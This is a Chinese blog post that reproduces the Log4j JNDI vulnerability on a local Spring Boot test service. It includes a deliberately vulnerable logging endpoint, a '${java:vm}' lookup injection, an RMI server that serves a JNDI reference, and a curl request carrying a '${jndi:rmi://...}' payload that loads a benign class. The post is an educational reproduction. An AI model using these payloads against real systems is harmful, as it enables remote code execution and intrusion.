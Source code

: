 ```yaml
---
title: 'log4j bug重现'
#permalink: /posts/2022/08/hello-jwt/
date: 2022-05-07
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - Java
toc: true
toc_label: "目录"
toc_icon: "cog"
---
```


> 最近出现的log4j漏洞，导致RNI远程调用问题，抱着好奇的心态来重现下。

<!--more-->

## 环境搭建及测试代码

本文采用的是SpringBoot 2.2.6版本加一个RMI服务重现BUG，方式是通过在微服务工程里打log日志，以触发远程服务调用漏洞。

省略搭建微服务的过程，我使用的是社区版idea 2020.3.4，大家同样使用社区版的话，建议安装Spring assistant插件，可以很方便的搭建Springboot工程。

因为目前已经有了新版本的修复，这里建议大家使用Springboot`2.2.6.RELEASE`版本，其中带的log4j版本是`2.12`，这个版本是存在漏洞的哈。

### 项目依赖

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <version>2.2.6.RELEASE</version>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
    <version>2.2.6.RELEASE</version>
</dependency>
```

### log记录

之后可以创建你的测试接口了。一个简单的测试用例，用log来记录入参，并返回参数。

```java
private static final Logger logger = LogManager.getLogger(TestLog4JController.class);
@PostMapping(value = "hack")
public Object testLog4J(@RequestBody String params) {
    logger.info("params: {}",params);
    return params;
}
```

## 打印JVM参数

先来打印一下jvm参数到控制台。通过`${java:vm}`该参数在log中打印，log4j会将我们的jvm参数打印出来，这个问题不会导致严重的问题，但是可以让我们见识了log4j并不是简单的帮我们记录日志。

```http
@request
curl --location --request POST 'http://127.0.0.1:8080/hack' \
--header 'Content-Type: application/json' \
--data-raw '{
    "command":"${java:vm}"
}'
```

### 日志输出

```
2021-12-20 12:02:27.549  INFO 71326 --- [nio-8080-exec-1] c.a.l.c.TestLog4JController              : params: {
    "command":"Java HotSpot(TM) 64-Bit Server VM (build 25.231-b11, mixed mode)"
}
```

## 远程服务调用

接下来我们先来构建一个远程服务，之后通过打印log日志来发起远程调用。

### RMI服务创建

```java
public static void main(String[] args) {
    try {
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        Reference reference = new Reference("com.away.log4j.impl.Execute",
                "com.away.log4j.impl.Execute", null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("service started");
        registry.bind("hack", referenceWrapper);
    } catch (RemoteException | NamingException | AlreadyBoundException e) {
        e.printStackTrace();
    }
}
```

```java
public class Execute {
    public Execute() {
        System.out.println("Execute");
    }

    static {
        // 代码执行到这里，表示RMI调用成功
        System.out.println("freedom, can do anything!");
    }
}
```

上面的程序是构建远程服务，当你打印log日志的时候，可以通过`JNDI`发起一个远程调用，那么一旦服务调用发起，我们的程序就很可能遭受意外的攻击。

调用示例：

```http
@request
curl --location --request POST 'http://127.0.0.1:8080/hack' \
--header 'Content-Type: application/json' \
--data-raw '{
    "command":"${jndi:rmi://127.0.0.1:1099/hack}"
}'
```

结果输出：

![](https://raw.githubusercontent.com/EugeneLau0/picture/master/20211220120731.png)

以上是一个简单的调用示例，通过RMI调用到目标主机，并实例化一段代码。可想而知，我们平时只是打印一个普通日志，却引来这么严重的问题，真的是不可思议。